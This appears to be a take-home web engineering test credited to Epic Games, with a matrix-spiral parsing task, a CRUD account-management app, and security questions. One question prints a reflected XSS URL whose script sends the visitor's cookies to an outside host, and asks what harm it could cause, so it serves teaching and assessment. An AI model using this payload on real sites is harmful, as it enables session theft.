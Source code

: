 # Epic Games, Web Engineer Test Assignment

Thank you for taking the time to complete the test assignment! The assignment consists of two programming tasks and two questions. Please return your response to your recruiter as a zip file within **one week**. This will keep responses private and easy to access for us.

## (Optional) Your links and code samples

You may send us a link to your portfolio or to any GitHub repositories where you are an active contributor. For projects that showcase your knowledge in building full stack web applications or expertise in a domain related to this position (for instance being a core contributor to popular open source library), then you may skip the programming tasks in this assignment. If you choose to submit work examples instead of the programming tasks, please send an email with the title, **FirstName.LastName: Coding Examples** to your recruiter and we will respond if the examples submitted are sufficient.

## Instructions

- Make sure you have the latest versions of [node](https://nodejs.org/en/) and [yarn](https://yarnpkg.com/en/) installed.
- Initialize git and use it during the assignment.

## Task 1: Clockwise Matrix

In [Task1.js](./src/task1/Task1.js), write a function that, given a matrix of integers, builds a string with the entries of that matrix appended in clockwise order.

The function should accept a string representing the matrix as shown below: brackets around each row of comma-separated integers, and a newline between each row. The function should return the solution string of comma-separated integers. Please write tests for this function in [Task1.test.js](./src/task1/Task1.test.js) and add command `yarn test:task1`. Note that this field takes human input, so parsing and validation is important.

Example Input:

<table>
<tr><th>Input</th><th>Output</th></tr>
<tr><td>

```json
[2, 3, 4,  8]
[5, 7, 9, 12]
[1, 0, 6, 10]
```

</td><td>2, 3, 4, 8, 12, 10, 6, 0, 1, 5, 7, 9</td></tr>

<tr><td>

```json
[ 1,  2,  3]
[ 4,  5,  6]
[ 7,  8,  9]
[10, 11, 12]
```

</td><td>1, 2, 3, 6, 9, 12, 11, 10, 7, 4, 5, 8</td></tr>

<tr><td>

```json
[1, 2]
[3, 4]
```

</td><td>1, 2, 4, 3</td></tr>

<tr><td>

```json
[1, 2, 3]
[4, 5, 6]
[7, 8, 9]
```

</td><td>1, 2, 3, 6, 9, 8, 7, 4, 5</td></tr>

<tr><td>

```json
[ 1,  2,  3,  4,  5]
[ 6,  7,  8,  9, 10]
[11, 12, 13, 14, 15]
[16, 17, 18, 19, 20]
```

</td><td>1, 2, 3, 4, 5, 10, 15, 20, 19, 18, 17, 16, 11, 6, 7, 8, 9, 14, 13, 12</td></tr>

</table>

State your assumptions when you solve the problem in Task 1.

How much time did you spend on this task?

## Task 2: Real World App

We have provided a sample in-memory service that you can either use or replace under [task2/service](./src/task2/service/index.js) folder. The mock service can be started with `yarn start:task2`.

You need to create a simple account management service and page(s) that allows an internal customer service team to perform CRUD operations on users. An account consists of a person's name, date of birth, and email. Feel free to use any external libraries or frameworks that you feel will help, and extend and enhance the test application as you would for a production-ready app. Writing tests for your code is recommended.

### Please explain your design choices

### Extras

Once you have created a basic CRUD front-end, enhance your application with one or more of the following features:

- Improved User Experience and front-end design. Create a user experience that improves workflow in some way.

  - What are some of the design decisions that you made?

- Full service implementation. Replace the in-memory service with a real back end (mongo/sql/etc).

  - What considerations did you make for adding this additional data?
  - How would you scale this system to millions of accounts?

- Add searching/filtering functionality to the accounts. Give the user the ability to search for a specific account. Bonus points if you use a single search box (omni-search) that searches the fields based on user input.

  - How would this search scale if there were a million accounts?
  - What considerations did you make for performance?

- Implement performance instrumentation for your application. Instrument your application in such a way that you get detailed insight into how it performs.

  - Which parts of the app did you instrument and why did you consider those areas?
  - Describe how the instrumentation you added could be used by QA to identify action items to improve the application's performance (give examples where possible)

State your assumptions when you solve each problem in Task 2.

How much time did you spend on the main task?

How much time did you spend on extras?

## Question 1: What harm could result from the following?

```
http://www.example.com/search?q=\<script\>object.src="http://otherexample.com/code?data="+document.cookie\</script>
```

Your answer:

## Question 2: Explain what security measures need to be taken into consideration for web applications

Your answer:
